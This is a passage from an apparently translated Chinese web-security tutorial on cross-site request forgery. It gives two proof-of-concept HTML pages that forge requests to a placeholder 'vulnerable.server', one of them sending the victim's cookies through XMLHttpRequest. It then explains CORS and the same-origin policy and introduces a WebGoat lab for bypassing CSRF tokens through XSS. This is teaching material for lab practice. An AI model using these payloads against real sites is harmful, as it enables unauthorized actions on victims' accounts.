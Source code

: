 ```
<HTML> 
  <BODY> 
    <FORM method="POST" action="http://vulnerable.server/UpdateAddress"> 
      <INPUT type="text" name="street_1" value="First street"> 
      <INPUT type="text" name="street_2" value="apartment 2"> 
      <INPUT type="text" name="zip" value="54123"> 
      <INPUT type="text" name="city" value="Sin City"> 
      <INPUT type="submit" name="submit" value="Submit form"> 
    </FORM> 
  </BODY> 
</HTML> 
```

如果请求的`Content-Type`头是不允许的，并且 web 服务只接受 JSON 或 XML 格式，那么您需要按照相同的示例复制（或创建）生成请求的脚本代码：

```
<HTML> 
  <BODY> 
    <SCRIPT> 
      function send_request() 
      { 
        var xhr = new XMLHttpRequest(); 
        xhr.open('POST', 'http://vulnerable.server/UpdateAddress'); 
        xhr.setRequestHeader('Content-Type', 'application/json'); 
        xhr.withCredentials=true; 
        xhr.send('{"street_1":"First street",
                  "street_2":"apartment 2","zip":54123,
                  "city":"Sin City"}'); 
      } 
    </SCRIPT> 
    <INPUT type="button" onclick="send_request()" value="Submit">  
  </BODY> 
</HTML> 
```

注意`xhr.withCredentials=true;`的用法。这允许 JavaScript 获取存储在目标域浏览器中的 cookie，并将其与请求一起发送。此外，状态更改事件处理程序被省略，因为您不需要捕获响应。

最后一个选项有几个缺点，因为 JavaScript 行为在当前浏览器和服务器中的跨站点操作方面受到限制。例如，根据服务器的**跨源资源共享**（**CORS**）配置，应用程序可能需要在发送跨站点请求之前执行飞行前检查。这意味着浏览器将在发送任何内容之前自动发送`OPTIONS`请求，以检查该服务器允许的方法。如果请求的方法不允许用于跨源请求，浏览器将不会发送该方法。另一个保护的例子，这一次是在浏览器中，是前面提到的**同源策略**，默认情况下，浏览器保护服务器的资源不被其他网站通过脚本代码访问。

# 使用跨站点脚本绕过 CSRF 保护

当应用程序易受**跨站点脚本**（**XSS**攻击时，攻击者可以使用该漏洞（通过脚本代码）读取包含唯一令牌的变量，并将其发送到外部站点并在新选项卡中打开恶意页面，或使用相同的脚本代码发送请求，还绕过 CORS 和同源策略，因为请求将由同一站点通过本地脚本发出。

让我们看一看脚本代码可以用来让应用程序自己执行请求的场景。您将使用 WebGoat 的*CSRF 令牌旁路*（跨站点脚本（XSS）【CSRF 令牌旁路】练习。如说明所述，您需要滥用新闻组中的*新帖子*功能允许注入 HTML 和 JavaScript 代码，以便执行未经授权的转账请求。

下面的屏幕截图显示了“转账资金”页面，您可以通过将`&transferFunds=main`参数添加到课程的 URL 来加载该页面：

![](../images/00196.jpeg)
